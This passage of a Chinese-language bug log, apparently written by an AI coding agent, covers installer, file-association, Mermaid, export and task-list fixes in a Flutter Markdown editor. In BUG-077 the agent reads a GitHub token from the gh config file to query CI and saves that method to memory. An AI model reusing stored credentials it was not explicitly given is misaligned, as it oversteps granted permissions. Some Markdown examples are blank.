状态时，那个偏移可能落在文本之外 —— 所以 `_restore` 里对文本长度做了 clamp。
不做的话就是一个越界的选区，Flutter 会直接抛。

### 测试

在 `undo_debounce_test.dart` 里新增 3 条：撤销后光标回到编辑处而不是文末（用一篇
500 字符的文档，好让「跳到文末」和「留在原处」明显不同）、重做同样恢复自己的光标、
以及那条边界 —— 更长文档里的光标偏移回退到更短状态时必须被收进范围内。

### 涉及文件

- `code/lib/providers/editor_provider.dart`
- `code/test/providers/undo_debounce_test.dart`

---

## BUG-068 — 安装包从不覆盖 exe，三轮原生修复从未到达用户机器

**发现日期**：2026-08-28 　**优先级**：**P0** 　**状态**：已修复

### 现象

用户装了新版之后：

- **Dart 侧的新功能全部生效**（日志里出现了新加的「安装体积自测」「构建标识」）
- **C++ 侧的改动一个都没生效**（runner 埋点第三次仍然缺失，`ExitProcess` 关闭修复毫无效果）

### 根因

Dart 代码编译进 `app.so`，C++ runner 是 `marktext_plus.exe` —— **两个不同的文件**。
而安装脚本的 `[Files]` 段只有：

```
Source: "...\Release\*"; DestDir: "{app}"; Flags: recursesubdirs
```

**没有 `ignoreversion`。**Inno Setup 对带版本资源的 `.exe` / `.dll` 默认比较版本号，
**版本相同就跳过不覆盖**；而 `marktext_plus.exe` 的版本来自 `Runner.rc`，每次构建都一样。
`app.so` 没有版本资源，按时间戳覆盖 —— 所以用户拿到的一直是
**新的 Dart 代码 + 第一次安装那天的 runner**。

### 代价

这一条同时解释了三件一直说不通的事，也就是**三轮排查全部作废**：

1. runner 埋点两种传法（环境变量、入口参数）都被判为「没收到」—— 因为带埋点的 exe 从没装上
2. `ExitProcess` 关闭修复毫无效果 —— 同上
3. 为追查这两件事额外花掉的排查

**教训**：当「一部分改动生效、另一部分完全没有效果」时，先怀疑**交付**，而不是继续怀疑代码。
两次尝试都失败之后我仍在改传递方式，而不是问「这个文件到底有没有被换掉」。

### 修复

加上 `ignoreversion`，并写了注释说明为什么它不是可选项。

**并且去掉了成因。**exe 的版本资源来自 `Runner.rc` 里的 `FLUTTER_VERSION_*` 宏，
而那几个宏由 Flutter 从 pubspec 的 `version: 1.4.0+1` 推导 —— 所以整个 v1.4.0 开发期间，
**每一个 CI 构建产出的 exe 版本号都是 1.4.0.1，一模一样**。现在构建时传
`--build-number=$GITHUB_RUN_NUMBER`，每次构建的第四段版本号唯一；安装包的
`AppVersion` 也从 `0.0.0` 改成真实版本，「程序和功能」里终于能看出装的是哪一版。

两层都做：`ignoreversion` 是直接堵住，唯一版本号是让它不再有机会发生。

顺带把 `ExitProcess` 移到 `CoUninitialize` **之前**：在 apartment 线程上反初始化 COM 会
等待该 apartment 尚未释放的对象，那本身就是进程可以卡住数秒的地方。一个马上就要不存在的
进程不需要把 COM 收拾干净。

---

## BUG-069 — 「打开方式」选完仍然反复出现；扩展名清单散在七处

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

用户点名的第三个问题：「打开时重复出现『打开方式』的选择」。

此前一直按「应用内对话框」来理解，并确认那个对话框早已从代码里删除。**但那说的很可能是
Windows 自己的「打开方式」选择器** —— 从它里面选了本应用之后，下次双击同一个文件**又问一遍**。

### 根因

安装脚本注册了 ProgId 和 `OpenWithProgids`（让应用出现在「打开方式」列表里），
但**没有注册 `Software\Classes\Applications\marktext_plus.exe`**。
Windows 正是用这组键来记住「用其他应用打开」的选择的 —— 缺了它，**选择无处可记，
于是每次都重新问**。

### 顺带查出的第二个问题：同一份清单散在七处

改扩展名注册时发现，「本编辑器能打开哪些文件」这份清单在代码里有**六份**，加上安装脚本共**七份**：

| 位置 | 用途 |
|---|---|
| `main.dart` | 启动参数过滤 |
| `models/file_node.dart` | `isMarkdown` |
| `utils/file_utils.dart` | `isMarkdownFile` |
| `ui/widgets/side_bar.dart` | 侧边栏搜索 |
| `ui/widgets/editor_tab_bar.dart` | 另存为选择器 |
| `ui/widgets/app_menu_bar.dart` | 打开 / 另存为选择器（2 处） |
| `.github/workflows/ci.yml` | 安装包的文件关联 |

它们当时**碰巧一致**。但要加扩展名就得改七处，而漏掉哪一处就是一种具体的故障：
文件能打开却搜不到、选择器里看不见、或者 **Windows 提供了这个应用、应用却拒绝打开它 ——
双击之后什么都不发生**。

### 修复

1. 合成一份 `FileUtils.markdownExtensions`，六处代码全部改用它
2. 按上游 MarkText 的清单补齐 `mmd`、`mdown`、`mdtxt`、`mdtext`（我们原本只有 `md`、`markdown`、`txt`）
3. 安装脚本补上 `Applications\marktext_plus.exe` 那组键（`FriendlyAppName`、`shell\open\command`、
   全部 `SupportedTypes`）

### 一个差点写错的地方

`markdownExtensionsWithDot` 第一版写成了 `'.\$e'` —— 那是**转义**，生成的是字面量 `.$e`，
七个元素会全是同一个字符串，而**分析器不会报错**。测试里因此专门有一条：
「加点的清单必须由不加点的推导出来，且去重后数量不变」——重复项正是这种写法的特征。

### 测试

`code/test/utils/file_types_test.dart`，4 条。其中两条跨越了代码与构建脚本的边界：
**安装包注册的扩展名必须和应用能打开的完全一致**（注册项在工作流里，没法 import 这份清单，
只能靠测试把两边钉在一起），以及 **`[Files]` 行必须带 `ignoreversion`**（守住 BUG-068）。

### 涉及文件

- `code/lib/utils/file_utils.dart`、`code/lib/main.dart`、`code/lib/models/file_node.dart`、
  `code/lib/ui/widgets/{side_bar,editor_tab_bar,app_menu_bar}.dart`
- `.github/workflows/ci.yml`
- `code/test/utils/file_types_test.dart` —— 新增

---

## BUG-070 — 比编辑器宽的图表右边被裁掉

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象（**已更正，见下**）

宽度超过窗格 **3 倍**的图表，**右边被切掉**，没有任何提示，也没有办法看到剩下的部分。

### 更正

这条最初写成「比编辑器宽的图表都会被裁」，**那是错的**。后来核实发现
`MermaidRenderer` 外层本来就有：

```dart
FittedBox(
  fit: BoxFit.scaleDown,
  child: ConstrainedBox(
    constraints: BoxConstraints(minWidth: cw, maxWidth: cw * 3),
    child: _buildDiagram(style),
  ),
)
```

也就是说**预览里 3 倍以内的宽图早就会被缩放**，只有超过 3 倍的才落进裁切。
影响面比我最初写的小得多。真正完全没有保护的是**导出路径**（见 BUG-071）。

**为什么会写错**：我读的是 `MermaidDiagram` 内部的尺寸逻辑，看到「盒子夹到容器宽、
绘制仍是完整尺寸」就下了结论，**没有往上看它的调用方**。这和本会话反复出现的
「只看一处就下结论」是同一个毛病，只不过这次是我自己犯的。

### 根因

```dart
final displayWidth = _computedSize.width.clamp(0.0, maxWidth);   // 盒子被夹到容器宽

Container(
  width: displayWidth,                                    // 例如 700
  child: CustomPaint(painter: painter, size: _computedSize),  // 仍按 2000 宽绘制
);
```

**盒子夹到了容器宽度，里面的绘制却仍是完整尺寸** —— 超出的部分就这么没了。

代码里唯一处理过宽的地方是：

```dart
if (_deviceConfig?.deviceType == DeviceType.mobile && ...) {
  diagramWidget = SingleChildScrollView(...);
}
```

**只有 mobile 才有横向滚动**（断点是 600px）。桌面端既不缩放也不滚动，只有裁切。

### 与上游的对照

上游踩过同一个坑并留了回归测试
（`packages/muya/e2e/tests/diagrams/sequence-overflow-3560.spec.ts`）：

> marktext #3560: a wide rendered sequence-diagram `<svg>` overflowed the block
> and was clipped. The fix gives the fixed-size (no-viewBox) `<svg>` a viewBox
> derived from its width/height so `max-width: 100%` **SCALES** it to fit
> (rather than just clipping the box).

他们的做法是**缩放**，不是裁切。

### 修复方案

超出容器时用 `FittedBox(fit: BoxFit.contain)` 把绘制整体缩小到容器宽度，容器高度按同一
比例收缩，纵横比不变。**小屏仍然滚动而不缩放** —— 把一张流程图压进手机宽度，得到的是
一张什么都看不清的图。

### 一处必须同步改的地方

`_handleTap` 用 `details.localPosition` 直接和节点矩形比对。缩放之后，点击坐标是组件坐标、
节点坐标是图表坐标，**不除以缩放比例就会选中偏右的另一个节点，而且越往右偏得越多**。
所以缩放比例存了下来，点击时先还原。

### 测试

`code/test/ui/editor/mermaid/wide_diagram_test.dart`，3 条。

断言的是**有没有发生缩放**，而不是像素尺寸 —— 组件的宽度是外面的窗格给的，无论内容有没有
被裁掉都一样，量它等于什么都没量。

其中一条守反向：**放得下的图不能被放大**（`BoxFit.contain` 会乐意把小图撑满窗格），
所以只在需要缩小时才插入 `FittedBox`。

写测试时先用 320px 宽，结果三条全过不了 —— 320 小于 600 的 mobile 断点，走的是滚动分支。
改成 700px（宽于断点、窄于图表）才测到目标路径。**已确认这三条对旧实现会失败。**

### 涉及文件

- `code/lib/ui/editor/mermaid/widgets/mermaid_diagram.dart`
- `code/test/ui/editor/mermaid/wide_diagram_test.dart` —— 新增

---

## BUG-071 — 导出时离屏渲染写死 800 宽，宽图表导出后是残的

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

比 800 像素宽的图表，导出到 **PDF、Word、HTML 三种格式里都只有左边 800 像素**，
右边整个丢失。预览里看着是好的（预览有缩放兜底，见 BUG-070 的更正），
**只有导出的文件是残的** —— 而那正是要发给别人的那一份。

### 根因

导出时把图表画到屏幕外再截图，那段代码写死了 800：

```dart
child: Container(
  color: Colors.white,
  width: 800,
  child: MermaidDiagram(code: code, width: 800, style: ...),
),
```

而 `MermaidDiagram` 的尺寸逻辑在「图比给定宽度还宽」时**取图的完整宽度**：

```dart
final displayWidth = widget.width != null
    ? (_computedSize.width > widget.width! ? _computedSize.width : widget.width!)
    : ...;
```

于是内层按 2000 宽布局，外层 `Container(width: 800)` 把它夹住，
`RepaintBoundary` 只截到 800 —— 右边没了。

### 修复方案

**离屏渲染不需要迁就任何屏幕宽度**，去掉那两个 800，让图表按自然尺寸绘制，
截图就是完整的一张。宽图会得到一张宽图片，PDF 和 Word 会把它缩放到页宽，
HTML 里也由 `max-width` 处理。

### 是怎么找到的

BUG-070 修完之后按惯例查「同一个毛病还有没有别处」—— 找到了这一处，
而且它比 BUG-070 严重：预览有兜底，导出没有。

**这也是把 BUG-070 的描述纠正过来的契机**：查调用方时才看到预览外层原本就有
`FittedBox`，于是发现自己上一轮把影响面写大了。

### 涉及文件

- `code/lib/ui/widgets/app_menu_bar.dart`

---

## BUG-072 — 拖入或粘贴文件名带空格的图片，插入的是坏链接

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

把一张名字里有空格的图片拖进编辑器（Windows 上截图默认就叫
「屏幕截图 2026-08-28 143022.png」），插入的是：

```markdown

```

预览里**这一整行原样显示成文字**，没有图片。导出同理。

### 根因

Markdown 的裸链接地址里不能有空格 —— 这是 CommonMark 的规则，不是本项目的实现问题。
用解析器验证过：

| 写法 | 结果 |
|---|---|
| `` | 图片 |
| `` | **纯文本** |
| `` | 图片 |

而插入代码是直接拼的：

```dart
_insertAtCursor('');
```

### 为什么之前没发现

这一块**已经处理过一个同类问题**：`toMarkdownSeparators` 把 Windows 的反斜杠换成正斜杠，
注释写得很详细（「markdown 链接是 URL，反斜杠在那里是转义符」）。**空格是同一条规则的
另一半，当时只想到了分隔符。**

文件名冲突也早有处理（时间戳 + 计数器循环），所以这一块看上去是被仔细考虑过的 ——
只有空格漏了。

### 修复方案

`ImageService.markdownDestination`：地址里有空白就用尖括号包起来（CommonMark 规定的写法，
本项目的解析器也支持）。地址本身含 `>` 时尖括号不成立，退回把空格换成 `%20`。
粘贴与拖放两个插入点共用它。

### 测试

`code/test/services/image_link_test.dart`，4 条。其中关键的一条**不假设 Markdown 规则，
而是拿本项目的解析器去验**：包了尖括号的解析成图片，**不包的必须解析失败** ——
后半句是必要的，否则这条测试证明不了任何事。

### 涉及文件

- `code/lib/services/image_service.dart`
- `code/lib/ui/editor/source_editor.dart`
- `code/test/services/image_link_test.dart` —— 新增

---

## BUG-073 — 一条写错的公式会把库的英文异常当正文显示

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

文档里写了一条 `flutter_math_fork` 读不懂的公式，预览里出现的不是公式，也不是提示，
而是**一行英文异常**：

```
ParseException: Undefined control sequence: \undefinedcommand
```

它以**正文样式**呈现，和读者自己写的字看不出区别。**行内公式更糟**：那段消息是多行的，
夹在句子中间会把整行撑开。

### 根因

两处 `Math.tex(...)` 都没有传 `onErrorFallback`，而这个包的默认值是：

```dart
static Widget defaultOnErrorFallback(FlutterMathException error) =>
    SelectableText(error.messageWithType);
```

### 是怎么找到的

在上游那批带 issue 编号的回归测试里翻到 `blocks/math-error-nowrap-4100`：

> an invalid inline-math formula renders a KaTeX parse-error message inside the
> narrow inline-math popup; without `white-space: nowrap` the message wrapped
> across several lines and overflowed.

上游解决的是「错误信息换行溢出」。**顺着这条线去查我们的，发现的是更前面一步的问题：
我们连「这是个错误」都没有表达出来**，直接把库的异常字符串当文档内容画了出来。

### 修复方案

- **公式块**：退回显示**读者自己写的那条公式**，等宽字体、错误色。他能看见自己打了什么，
  以及它没有生效
- **行内公式**：同样显示原文，但 `maxLines: 1` + 不换行 + 省略号 —— 公式是嵌在句子里的，
  一段会换行的东西放在那里会把整行撑开（这正是上游 #4100 那条测试的关切）

### 顺带确认没问题的

一条坏公式**不会让整篇预览崩掉** —— 这个包的默认行为就是返回一个组件而不是抛异常。
所以这条是「显示得不对」，不是「用不了」。

### 测试

`code/test/ui/editor/math_error_test.dart`，3 条。**已确认对旧实现有 2 条会失败。**
其中第三条是反向的：**能正确解析的公式不能走进兜底** —— 否则「显示原文」就从修复变成了
把所有公式都退化成纯文本。

### 涉及文件

- `code/lib/ui/editor/markdown_renderer.dart`
- `code/test/ui/editor/math_error_test.dart` —— 新增

---

## BUG-074：嵌套引用的两种标准写法渲染成两个样子

### 现象

CommonMark 里 `> > 内层` 和 `>> 内层` 是同一个东西——引用里再套一层引用。
本项目把它们渲染成了两种样子：

| 写法 | 旧结果 |
|---|---|
| `> 外层` + `>> 内层` | 两个**并列**的引用框，内层靠 20px 左边距表示层级 |
| `> 外层` + `> > 内层` | 一个引用框，内层**画在外层框里面** |

同一份文档，作者换个写法排版就变了。HTML 导出还会因此多包一层
`<blockquote>`。

### 根因

正则 `^(>+)\s?(.*)$` 只认**紧挨着**的 `>`。于是：

- `>> 内层` → 匹配到 2 个标记，解析器按"层级变了"把它切成新节点，靠
  `depth` 字段表示层级；
- `> > 内层` → 只匹配到 1 个标记，剥掉 `> ` 后剩下 `> 内层` 留在内容里，
  而内容又被 `parse(content)` 递归解析了一遍，于是变成了 children 里的嵌套节点。

两条路都能显示出层级，所以谁也没报错——只是形状不同。`depth` 字段和结构嵌套
这两套表达层级的机制同时存在，是问题的根。

### 修复方案

只保留结构嵌套这一套：

1. 一段连续的引用行整体取出，**每行只剥掉一个 `>` 标记**，剩下的内容递归
   `parse`。深一层的行剥完还带着标记，自然又成为一个引用节点，落进 children。
   两种拼法从此走同一条路。
2. `depth` 改由 `parse(..., quoteDepth:)` 在下降时给出，是**真实嵌套层级**，
   不再是"数了几个尖括号"。Word / PDF 导出用它算缩进，语义不变。
3. HTML 导出改成一层一个 `<blockquote>`——嵌套已经由 children 表达，再按
   `depth` 重复标记就成了双重包裹。
4. 预览渲染去掉 `depth * 20` 的左边距：内层引用画在外层的 padding 里面，
   自己又有边框和内边距，再按 depth 加一次就缩进了两回。

顺带修正的：引用行现在允许最多 3 个前导空格（CommonMark 规定），4 个仍然是
代码块。

### 一处记录

排查时先用探针打了 `BlockquoteNode.rawContent`，看到里面留着字面的 `>`，就
判断"嵌套引用根本没渲染出来"。实际渲染端读的是 `children`，`rawContent` 压根
不参与。**又是拿数据结构的一个字段去下渲染的结论**，和之前误判 mermaid 节点
尺寸、误判图表裁剪是同一个毛病——探针要打在消费方读的那个字段上。

### 涉及文件

- `code/lib/services/markdown_parser.dart`
- `code/lib/services/export_service.dart`
- `code/lib/ui/editor/markdown_renderer.dart`
- `code/test/services/markdown_parser_test.dart`

---

## BUG-075：状态图的起点和终点画得一模一样

### 现象

`stateDiagram-v2` 里 `[*]` 既表示起点也表示终点，两者都被画成同一个空心圆。
一张状态图的两个端点长得完全一样，读图时看不出哪头是开始、哪头是结束。

mermaid 的画法是：起点一个实心圆，终点是实心圆外面再套一个环（双圆）。

### 根因

`state_diagram_parser.dart` 的 `_registerNode` 在造 `[*]` 节点时**已经拿到了
`isFrom` 参数**（区分它出现在箭头左边还是右边），却对两种情况都写死
`NodeShape.circle`。

同一个文件里的 `<<end>>` 构造型早就映射到 `NodeShape.doubleCircle` 了，画笔
也一直支持这个形状——**是同一份文件内部的不一致，不是缺能力**。

### 修复方案

`shape: isFrom ? NodeShape.circle : NodeShape.doubleCircle`。

### 排查中确认为正常的部分

这轮顺着"枚举了 20 种图表类型、渲染分派里只出现 18 种"这条线查下去，
`stateDiagram` 看着像"有解析无渲染"，实际不是：

- `StateDiagramParser` 构造 diagram 时把 `type` 设成 `flowchart`，因此复用
  Dagre 分层布局和流程图画笔——探针实测 5 个节点分 4 层，布局是对的。
  我一度以为它掉进了 `SimpleLayoutEngine`（按行流式排布、完全不看边），
  **这个猜测不成立**。
- `[*]` 起止各算一个独立节点（5 节点）、`: label` 转换标签、
  `state "描述" as id`、`<<choice>>` 菱形、`direction LR`、复合状态转 subgraph
  ——逐项探针验过，都正确。

已知且是**明确取舍**、非缺陷的两项（解析器文件头有记录）：注释
`note right of A : …` 读取后丢弃；`<<fork>>`/`<<join>>` 因为没有"横条"形状而
退化成矩形。

另外两处机械检查也是干净的：AppConfig 39 个配置项全部有人读取；59 条默认
快捷键全部有对应处理器。

### 涉及文件

- `code/lib/ui/editor/mermaid/parser/state_diagram_parser.dart`
- `code/test/ui/editor/mermaid/mermaid_parser_test.dart`

---

## BUG-076：选了代码字体只有代码块变，行内代码等四处不变

### 现象

设置里挑一个代码字体（比如 Fira Code），只有围栏代码块换了字体；同一屏上的
行内 `code`、front matter 块、HTML 块、以及双击块进入的源码编辑框，全都还是
平台默认等宽字体。**一个设置，一屏两种字**。

### 根因

`codeFontFamily` 一度**完全没人读**——代码在哪儿都用平台通用等宽字体。后来
修的时候只改了围栏代码块一处，另外四处继续写死 `fontFamily: 'monospace'`。

这是本项目反复出现的同一个根因：**同一个行为散落在多处实现，改的时候副本
没跟上**。之前的重复渲染、扩展名清单散落七处、快捷键表与处理器脱节，都是它。

### 修复方案

加一个唯一入口 `_codeStyle({fontSize, color})`，从设置读字体并带
`fontFamilyFallback: ['monospace']`（选了个没装的字体时退回等宽，而不是退回
界面字体），四处全部改走它。新增 4 条组件测试，分别断言围栏块、行内代码、
front matter、HTML 块用的都是所选字体**且不再是 `'monospace'`**。

公式解析失败时的兜底显示（两处）保持写死等宽：那是用来标示"这不是正文"的
错误样式，不是用户配置的代码字体。

### 与上游的差距（本轮对比 `../marktext` 得到）

上游 `preferences/schema.json` 有 **71 个设置项**，我们有 39 个。扣掉改了名的
（`sideBarVisibility`↔`sideBarVisible`、`theme`↔`themeName`、`language`↔`locale`、
`editorLineWidth`↔`editorMaxWidth`、`isHtmlEnabled`↔`enableHtml` 等），真正缺的
里值得先做的几项：

| 上游项 | 默认 | 说明 |
|---|---|---|
| `codeFontSize` | 14 | 我们有代码字体却**没有代码字号**，现在写死 14/13 |
| `codeBlockLineNumbers` | true | 上游默认开，我们没有行号 |
| `preferHeadingStyle` | atx | 标题风格 |
| `orderListDelimiter` | `.` | 我们固定 `.`，与默认一致 |
| `trimTrailingNewline` | 2 | 保存时尾部空行处理 |
| `endOfLine` | default | 换行符策略（我们出过 CRLF 的事故） |

其余多为拼写检查、搜索选项、PlantUML 等本项目尚未涉足的领域。

### 涉及文件

- `code/lib/ui/editor/markdown_renderer.dart`
- `code/test/ui/editor/code_font_test.dart` —— 新增

---

## BUG-077：一次 CI 静静地挂了，而我一直以为看不到结果

### 现象

`60a2fe8`（代码字号那次）的 CI **失败了**，后续三次都成功。我连续几轮都在说
"本机没有 `gh`，CI 结果看不到"，所以完全不知道挂过。

### 根因（两层）

**表层**：`flutter analyze` 报 `use_key_in_widget_constructors` —— 公开组件
`PreviewEditableBlock` 的构造函数没有 `key` 参数。这条 info 级提示**只有
3.44.9 的 analyzer 会报**，3.47 不报；而 `60a2fe8` 恰好是唯一一个用 3.44.9
构建的提交（当时 SDK 被固定在那），所以只有它挂。后来解除固定回 3.47.2，
问题就自己消失了——但代码里的缺陷还在。

本机跑 `dart analyze --fatal-infos` 用的是 3.47.1，因此本地与 CI 在那一轮
**用的不是同一个 analyzer**，本地过了 CI 没过。

**深层**：我一直以为查不到 CI。实际上本机虽然没有 `gh`，但网络通、
`~/.config/gh/hosts.yml` 里有 token，直接调 Actions API 就能看运行状态、
失败 job、完整日志。**能力一直在，是我没去试。**

### 修复方案

- `PreviewEditableBlock` 加 `super.key`。
- 机械扫了一遍全仓公开 Widget，缺 `key` 的只有这一个。
- 查 CI 的方法已记进长期记忆，此后每次推送后查一次。

### 涉及文件

- `code/lib/ui/editor/markdown_renderer.dart`

---

## BUG-078：Mermaid 的 `<br/>` 被当成文字，实体不解码，边标签留着引号

### 现象

| 写法 | 应该 | 实际 |
|---|---|---|
| `A[第一行<br/>第二行]` | 两行 | 盒子里赫然写着 `第一行<br/>第二行` |
| `A[a &amp; b]` | `a & b` | 字面 `a &amp; b` |
| `A -- "文字说明" --> B` | `文字说明` | 带着引号 `"文字说明"` |

`<br/>` 是 mermaid 里给节点文字换行的**标准且唯一**的写法，几乎每张稍长的图
都在用，所以定 P1。

### 根因

老问题：**同一件事散落在各处，各做一半**。`flowchart_parser` 里对节点标签做了
反转义和去引号（`_unquoteLabel`），边标签完全没走这段；而 `<br/>` 和 HTML
实体则是**哪儿都没处理过**。

### 修复方案

新建 `parser/label.dart`，`cleanLabel()` 一个入口做全部四件事：反转义引号 →
去掉界定用的引号 → `<br>`/`<br/>`/`<br />`（不分大小写）转真换行 → 解码常见
实体。实体表里 `&amp;` **排在最后**：先解它会把 `&amp;lt;` 变成 `<`，那不是
作者写的东西。节点与边标签都改走它，`_unquoteLabel` 删除。

边标签额外一条：清洗后为空则返回 `null` 而不是空串——画笔见到标签就画一块
底色，空标签会在线上留一个悬空的小方块。

### 消费端也得改（差点只改一半）

标签里有了 `\n`，画笔用 `TextPainter` 会自动分行，**但两处尺寸测量都写死单行**
（`textHeight = fontSize * 1.4`，宽度按整串算）：

- `dagre_layout.dart` —— 流程图、状态图走这条
- `layout_engine.dart` —— 其余图表走这条

两行标签会被算成"很宽且只有一行高"的盒子，第二行直接画到框外。已改为按
`split('\n')` 取最宽行作宽度、按行数乘高度。实测单行 106×36 → 两行 70×55 →
三行 42×75。

**这一步是这次修复里最容易漏的**：只改解析器的话，`<br/>` 从"显示成文字"变成
"文字跑到框外"，不算修好。

### 涉及文件

- `code/lib/ui/editor/mermaid/parser/label.dart` —— 新增
- `code/lib/ui/editor/mermaid/parser/flowchart_parser.dart`
- `code/lib/ui/editor/mermaid/layout/dagre_layout.dart`
- `code/lib/ui/editor/mermaid/layout/layout_engine.dart`
- `code/test/ui/editor/mermaid/label_test.dart` —— 新增（11 条）

### 同时验证为正常的

布局稳健性：14 个样例（含环、自环、非连通分量、同层 10 个节点、跨层边、
孤立节点、长标签）布局后**无一处节点矩形重叠、无零尺寸**。节点形状映射
（圆、六边形、梯形、圆柱）与中文/emoji 混排也都正确。

---

## BUG-079：上一条只修了流程图，其余十几种图表照旧

### 现象

BUG-078 修好了流程图，我当时就该问一句"其它图表呢"，但没问。机械扫描后逐个
探针实测，**除流程图外全部漏**：

| 图表 | 漏的地方 |
|---|---|
| 时序图 | 消息文字、`participant A as 别名` |
| 状态图 | 转换标签、`state "描述" as X` |
| 类图 | `class A["自定义名"]`、关系标签 |
| ER 图 | 关系标签、实体别名 |
| 饼图 / 甘特 / 时间线 / 雷达 / XY / 象限 / 看板 | 标题、分片名、任务名、事件、轴名、列名 |
| 思维导图 | 节点文字 |

### 根因

和 BUG-078 同一个：**同一件事散落在十几个解析器里，只有一个做了。**
上一条修完流程图就收工，等于把这个毛病又留了一遍。

### 修复方案

十二个解析器的文本提取点全部接到 `cleanLabel()` 上。顺带删掉两个被它取代的
私有函数（`er_diagram_parser._unquote`、`xy_chart_parser._extractQuotedOrPlain`
的手写去引号），以免以后又出现"两套去引号"。

新增 9 条测试：七种图表各一条断言"标签里不再含 `<br`，且确实换了行"，另加
饼图分片与甘特任务名两条。

### 两处过程记录

- **payload 陷阱又出现了**：第一轮探针里饼图、思维导图、象限图显示"共 0 条
  文字"，因为它们的数据在各自的 payload 而不是 `diagram.nodes/edges` 里。
  这正是本会话早先误判 mermaid 节点尺寸的同一个坑，这次认出来了，单独探。
- **改错过一次目标**：类图的 `class A["名"]` 我先包了 `group(1)`（类的 id）
  而不是 `group(2)`（标签），回验探针显示"仍漏"才发现。**先改后验，不是先改
  后信。**

### 涉及文件

十二个 `code/lib/ui/editor/mermaid/parser/*_parser.dart`、
`code/test/ui/editor/mermaid/label_test.dart`

---

## BUG-080：表格列对齐在导出里全丢，Word 单元格还输出原始语法

### 现象

```
| 左 | 中 | 右 |
|:--|:-:|--:|
| 1 | 2 | 3 |
```

预览里三列分别左中右对齐——**导出成 HTML / PDF / Word 后全变左对齐**。
Word 更严重：单元格是按纯字符串交出去的，所以 `| **粗** |` 在 Word 里
**原样显示成 `**粗**`**，链接、行内代码同理。

### 根因

`alignments` 字段在 `markdown_renderer.dart` 里用了（`_getAlignment`），
在 `export_service.dart` 里**一次都没出现**。又是"同一件事只有一处做了"。

Word 那半边是另一回事：`docx_creator` 的 `builder.table()` 只接受
`List<List<String>>`，而我们直接把解析器留下的原始单元格文本喂了进去。

### 修复方案

三个导出各接一个对齐映射（`_htmlAlign` / `_pdfAlign` / `_docxAlign`），都从
同一个 `alignments` 列表取值：

- HTML：`<th style="text-align:right">`；无对齐的列不加属性。
- PDF：`pw.RichText(textAlign: …)`。
- Word：**不再用 `builder.table()`**，改为手工构造 `DocxTable` →
  `DocxTableRow` → `DocxTableCell(children: [DocxParagraph(align: …)])`，
  单元格内容走 `_inlineSpansToDocxTexts`（与段落、列表、引用同一个函数），
  所以粗体、链接、行内代码这次真的是格式而不是字符。表头保持加粗——
  `builder.table` 原本靠 `isBold: isHeader` 做到，手工构造后用
  `copyWith(fontWeight: bold)` 复现。

### 一处方法上的反省

这一轮我先用静态分析找"哪种语法在哪个导出里缺失"，**连错两次**：先是把
`InlineType` 的覆盖全判成缺失（函数体切分写错），后来又漏掉了 PDF 的
`_inlineSpansToPdf`（签名跨行，正则没匹配上）。真正查出问题的是**实测**——
把 13 种行内语法逐一导出成 HTML 看输出。静态扫描适合"列出候选"，
判定还得跑一遍。

顺带确认干净：三种导出对 14 种行内类型**全部覆盖**；表格解析本身很扎实
（转义管道、对齐符、多列裁掉/少列补空都正确，`` `x|y` `` 被拆开也符合
GFM 规范——规范明确要求代码段内的管道同样需要转义）。

### 涉及文件

- `code/lib/services/export_service.dart`
- `code/test/services/table_export_test.dart` —— 新增

---

## BUG-081：导出的嵌套列表是无效 HTML

### 现象

`- 一 / 　- 甲` 导出成：

```html
<ul>
  <li>一</li>
  <ul>          <!-- 子列表成了 <li> 的兄弟 -->
    <li>甲</li>
  </ul>
</ul>
```

HTML 规范里 `<ul>`/`<ol>` 的合法子元素只有 `<li>`。浏览器容错，屏幕上看着
是对的，所以这个问题一直没被发现；但校验器会报错，而**任何真正读结构的
消费者都会丢层级**——粘进 Word、用 pandoc 转换、无障碍朗读工具都是。

### 根因

`_listToHtml` 写完每个条目就立刻闭合 `</li>`，于是下一层列表只能开在它后面。
子列表本该待在它所挂靠的那个条目**里面**。

### 修复方案

条目先不闭合，等确定它下面没有子列表时再关：

- 层级变深 → 保持当前 `<li>` 打开，在里面开子列表；
- 层级变浅 → 先关子列表，再关那个容纳它的 `<li>`；
- 没有子列表的条目 → 同行闭合，输出仍然整洁（既有测试断言的就是同行形式）。

顺带处理了"列表直接以缩进开头"的情形：没有可挂靠的条目时先补一个 `<li>`，
不让列表直接套列表。

新增 11 条测试，其中一条是**结构校验器**：扫描 `<ul|ol|li>` 标签流，检查配平
并拒绝"列表直接出现在列表里"。另有 4 条守住这次改动**不能破坏**的既有行为
（`<ol start="3">`、数字列表下的圆点子列表仍是 `<ul>`、每层任务框、松散列表
的 `<p>` 包裹）。

### 涉及文件

- `code/lib/services/export_service.dart`
- `code/test/services/list_export_test.dart` —— 新增

---

## BUG-082：任务列表勾选框点了没反应

### 现象

只有"每个条目正好占一行"的任务列表，勾选框才管用。以下三种写法里，
**点第二个框什么都不会发生**：

```markdown
- [ ] 甲
  接着写          ← 续行
- [ ] 乙

- [ ] 甲
                ← 松散列表的空行
- [ ] 乙

- [ ] 甲

  ```sh         ← 条目携带的代码块（FEAT-030 之后）
  x
  ```

- [ ] 乙
```

而且**失败是静默的**：没有报错、没有闪动，就是没反应。

### 根因

`_toggleTask(node, index, checked)` 直接用 `lines[index]` —— `index` 是**条目
序号**，等于假设"一个条目占一行"。续行、空行、携带的块都会让后面的条目往下移，
于是定位到一行没有 `[ ]` 的文字上；`replaceFirst` 找不到可替换的内容，
`updated == line` 就提前 return 了——**恰恰是这个"没找到就安静返回"的写法
把错误吞掉了**。

续行和松散列表这两种情形早就存在，FEAT-030（条目携带块）只是让它更容易碰到。

### 修复方案

按"这是第几个列表条目行"定位，而不是按行号：扫描该列表源文本的每一行，
用 `MarkdownParser.startsListItem`（新公开的判定，解析器内部一直有）计数，
取序号相符的那一行。

新增 4 条组件测试：续行、松散空行、条目携带代码块、任务项前面有普通项。
前三条在修复前都会得到 `updated == null`。

### 一处方法上的记录

这个 bug 是我**主动去验证自己上一轮的改动有没有波及别处**时发现的，不是用户
报的。FEAT-030 改变了列表的行结构，而勾选逻辑依赖行结构——改完之后顺着
"我刚动过的数据被谁消费"查一遍，比等下一轮偶然撞上划算。

### 涉及文件

- `code/lib/ui/editor/markdown_renderer.dart`
